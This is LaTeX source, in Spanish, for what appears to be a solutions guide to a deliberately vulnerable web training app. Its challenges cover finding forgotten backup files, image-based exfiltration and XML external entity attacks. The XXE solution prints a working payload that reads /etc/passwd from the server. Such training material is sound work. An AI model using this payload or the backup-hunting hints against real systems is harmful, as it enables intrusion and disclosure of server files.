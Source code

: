 \documentclass[11pt,a4paper]{article}
\begin{document}
\begin{desafio}
\textbf{Objetivo:} Encontrar un archivo de respaldo olvidado.
\begin{solucion}
Buscá archivos de backup (extensiones \texttt{.bak}, \texttt{.old}, \texttt{.zip}) en directorios web o en \texttt{/ftp}. Suelen contener datos de ventas o configuración sensible.
\end{solucion}
\end{desafio}

\begin{desafio}
\textbf{Objetivo:} Extraer información mediante imágenes referenciadas entre sitios.
\begin{solucion}
Este desafío avanzado combina técnicas para «leer» datos a través de imágenes que cambian según el estado del servidor. Implica analizar cómo la app genera imágenes dinámicas y usarlas para exfiltrar información.
\end{solucion}
\end{desafio}

\section{Categoría: XXE (XML External Entities)}

\begin{teoria}
Cuando una aplicación procesa XML sin deshabilitar las entidades externas, un atacante puede incluir entidades que leen archivos locales o realizan peticiones SSRF.
\end{teoria}

\begin{desafio}
\textbf{Objetivo:} Leer un archivo del servidor vía XXE.
\begin{solucion}
En la función de subida de archivos (o donde se procese XML), subí un archivo con este contenido:
\begin{lstlisting}[language=XML]
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<foo>&xxe;</foo>
\end{lstlisting}
El servidor incluirá el contenido de \texttt{/etc/passwd} en la respuesta.
\end{solucion}
\end{desafio}
\end{document}
